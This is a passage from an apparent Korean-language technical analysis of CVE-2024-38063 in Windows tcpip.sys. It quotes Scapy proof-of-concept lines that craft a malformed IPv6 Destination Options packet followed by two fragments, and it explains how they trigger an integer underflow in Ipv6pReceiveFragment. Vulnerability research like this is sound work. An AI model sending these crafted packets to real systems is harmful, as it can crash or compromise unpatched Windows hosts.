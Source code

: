 ```python
    time.sleep(1)
print("")
```
PoC에서 볼 수 있듯, 총 3개의 패킷의 묶음을 연속해서 생성하고 있다는 것을 알 수 있습니다.
```python
first = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrDestOpt(options=[PadN(otype=0x81, optdata='a'*3)])
second = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 1, offset = 0) / 'aaaaaaaa'
third = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 0, offset = 1)
```
첫 번째 나타나는 확장 헤더는 앞서 RCA에서 언급한 current-offset을 0으로 만드는 취약점을 트리거 시키기 위해서 삽입된 코드입니다.
```python
first = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrDestOpt(options=[PadN(otype=0x81, optdata='a'*3)])
```
이로 인해 Destination Option 확장 헤더와 연결된 패킷들의 current-offset은 0으로 바뀌게됩니다.

그 이후에는 취약점을 이용하기 위해 Fragment 확장 헤더를 사용하는 모습을 볼 수 있습니다. 이를 통해 Underflow를 트리거 하기위해서는 Fragment 확장 헤더 처리 기능을 이용한다는 것을 알 수 있습니다.
```python
second = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 1, offset = 0) / 'aaaaaaaa'
```
tcpip.sys에서 Fragment 확장 헤더에 대한 처리는 Ipv6pReceiveFragment 함수에서 맡고 있습니다.

Ipv6pReceiveFragment는 재조립될 데이터 값을 계산하기 위해 current-offset을 이용하여 헤더가 아닌 데이터의 길이를 계산하는 로직을 가지고 있습니다.

<img src="/assets/img/CVE-2024-38063/11.png"/>

이때 고정된 - 0x30을 수행하게되는데 취약점에 의해 current-offset은 0+8값을 갖고있기 때문에 Word integer underflow가 발생하게됩니다.

<img src="/assets/img/CVE-2024-38063/12.png"/>
<img src="/assets/img/CVE-2024-38063/13.png"/>
